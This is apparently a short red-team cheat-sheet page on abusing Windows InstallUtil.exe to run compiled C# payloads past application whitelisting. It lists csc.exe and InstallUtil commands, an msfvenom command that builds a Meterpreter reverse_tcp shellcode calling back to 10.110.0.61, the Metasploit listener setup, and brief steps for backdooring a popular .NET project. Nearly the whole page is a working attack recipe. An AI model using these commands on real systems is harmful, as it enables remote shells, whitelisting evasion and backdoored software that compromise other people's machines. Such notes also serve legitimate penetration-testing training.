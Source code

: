 # InstallUtil

## InstallUtil usage

### Compile cs file using csc.exe, then execute the created dll with installutil.exe

![](../../../.gitbook/assets/7233ab599bf5a00d4ad0f7195146bdb1.png)

### Calc POC

Require c\# code which needs to be compiled with csc.exe

* **Compile the file to get a dll**

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library payload.cs`

* **Execute the payload**

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /u payload.dll`

### Get a shell

* \*\*Create a csharp meterpreter shellcode \*\*

`msfvenom -p windows/meterpreter/reverse_tcp -f csharp LHOST=10.110.0.61 LPORT=9001`

* **Set up the listener**

```text
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > set LHOST 10.110.0.61
LHOST => 10.110.0.61
msf5 exploit(multi/handler) > 
```



* **Edit the cs file**

![](../../../.gitbook/assets/aca3396c10a21cc02d38e354231f1623.png)

* **Compile and execute**

 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library C:\ClassFiles\awl_course_content\installutil\metasploit.cs`

 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logconsole=false /u .\metasploit.dll`

## Use an existing .NET project and backdoor it <a id="use-an-existing-net-project-and-backdoor-it"></a>

* .Net project

[https://github.com/trending/c%23](https://github.com/trending/c%23)

* Add uninstall function

![](../../../.gitbook/assets/abca658e1b83a61b06db51f5aeff95f8.png)

